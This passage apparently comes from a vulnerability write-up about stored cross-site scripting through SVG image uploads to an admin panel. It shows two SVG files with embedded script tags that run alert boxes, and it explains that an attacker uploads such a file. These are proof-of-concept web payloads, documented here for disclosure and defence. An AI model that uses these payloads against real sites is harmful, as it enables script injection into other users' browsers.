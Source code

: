 ```xml
       transform="scale(1,-1)" />
  <!-- The below lines were added in a text editor to the image XML. This is the stored XSS attack. -->
  <script type="text/javascript">
    alert("This is an example of a stored XSS attack in an SVG image")
  </script>
  </g>
</svg>
```
Alternatively:
```xml
<?xml version="1.0" standalone="no"?>

<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" >

   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert("xss");
   </script>
</svg>
```
Once logged into the admin panel, the attacker can upload the SVG file through the image upload interface.
![](./public/a-4.png)